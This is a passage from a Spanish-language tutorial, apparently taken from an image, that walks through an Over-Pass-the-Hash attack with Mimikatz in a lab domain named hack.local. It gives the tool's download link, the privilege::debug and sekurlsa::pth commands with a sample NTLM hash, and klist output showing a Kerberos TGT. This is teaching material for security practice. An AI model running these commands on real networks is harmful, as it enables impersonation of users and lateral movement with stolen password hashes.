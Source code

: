 1. Descarga desde:
   👉 [https://github.com/gentilkiwi/mimikatz/releases](https://github.com/gentilkiwi/mimikatz/releases)
   (Usa `mimikatz_trunk.zip`, extrae y ejecuta como admin)

2. Ejecuta `mimikatz.exe` como **Administrador**.

---

### ✅ Ejemplo práctico con Mimikatz (Over Pass The Hash)

#### 🎯 Escenario:

- Dominio: `hack.local`
- Usuario: `gustavo`
- Hash NTLM: `32ed87bdb5fdc5e9cba88547376818d4`
- Nombre NetBIOS del dominio: `HACK`
- Nombre del DC: `dc.hack.local`

---

#### Paso 1️⃣: Abrir Mimikatz como Administrador

```cmd
mimikatz # privilege::debug
```

🔒 Este comando habilita privilegios para manipular tokens y procesos.

---

#### Paso 2️⃣: Ejecutar `sekurlsa::pth` para obtener TGT

```mimikatz
sekurlsa::pth /user:gustavo /domain:hack.local /ntlm:32ed87bdb5fdc5e9cba88547376818d4 /run:cmd.exe
```

📌 Esto abrirá **una nueva consola** (`cmd.exe`) que contiene el **ticket TGT** del usuario `gustavo`.

---

#### Paso 3️⃣: Verificar que el TGT esté presente

Dentro del nuevo `cmd`, ejecuta:

```cmd
klist
```

👉 Verás un **Ticket de Kerberos TGT** válido como:

```
Cached Tickets:
#0> Client: gustavo @ HACK.LOCAL
    Server: krbtgt/HACK.LOCAL @ HACK.LOCAL
```

---
